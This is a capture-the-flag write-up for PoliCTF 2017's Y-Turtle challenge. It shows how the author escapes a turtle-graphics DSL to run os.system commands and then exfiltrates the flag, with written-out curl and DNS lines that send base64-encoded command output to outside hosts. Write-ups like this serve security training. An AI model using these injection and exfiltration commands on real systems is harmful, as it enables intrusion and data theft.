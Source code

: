 ```yaml
---
layout: post
ctf: "PoliCTF 2017"
title: "PoliCTF 2017 - Y-Turle - Grab Bag"
---
```


>A new cyber-artistic collective had fun experimenting with metaprogramming and domain specific languages. Here thre is a first, broken, implementation of a Turtle graphic engine.
>http://yturtle.chall.polictf.it

This challenge was about breaking out of an environnement that provided a DSL to create an image output using turtle graphics.


<img src="https://i.imgur.com/T4VCWjv.png" />

Since the description hinted about metaprogramming, I tried executing function that would be associated to common dynamic languages.

```
(instance_eval "move(5)") ; returned nothing, it's not Ruby
```

```
(move (ord "A")); made the cursor move 41 pixels. ord is very Pythonic function
```

```
(import time)
(time.sleep 10) ; delays the response by 10 seconds
```

Can we use `os.system`? Of course!

```
(import os)
(os.system "sleep 10") ; delays the response by 10 seconds
```

Since I was not able to get the output of the commands I was running, I tried using an external server.

```
(import os)
(os.system "curl http://requestb.in/XXXXXX?x=$(ls|base64)") ; response hangs
```

Access to internet is probably blocked. I then tried using DNS which turned out not to be blocked.

```
(import os)
(os.system "host $(cat flag*|base64).example.com")
```
The server receives a DNS query for the subdomain `ZmxhZ3tzaGFfbWFfbmFfbmFfbmFfc2hhbWFfbmFfbmFfbmFfbmF9Cg==` which decodes to the flag `flag{sha_ma_na_na_na_shama_na_na_na_na}`.

The DNS exfiltration was made using [DNSBin](https://github.com/HoLyVieR/dnsbin) made by the all mighty [HoLyVieR](https://github.com/HoLyVieR).

Becojo - Northern Coalition

